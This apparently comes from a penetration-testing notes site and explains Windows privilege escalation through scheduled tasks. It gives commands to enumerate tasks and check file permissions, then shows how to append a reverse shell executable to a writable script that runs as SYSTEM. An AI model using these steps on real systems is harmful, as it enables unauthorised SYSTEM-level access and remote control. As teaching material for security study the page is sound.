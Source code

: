 # Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```
schtasks /query /fo LIST /v
```

In PowerShell:

```
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

in this example we find a powershell script that will clean up our old dev logs every minute.

![](<../../../.gitbook/assets/image (153).png>)

This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```
accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

![](<../../../.gitbook/assets/image (152) (1).png>)

It appears we have the ability to write to this file

Backup the script:

```
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

start a listener on your side, create a reverse shell and Use echo to append a call to our reverse shell executable to the end of the script:

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

Wait for the scheduled task to run (it should run every minute) to complete the exploit.

![](<../../../.gitbook/assets/image (149).png>)

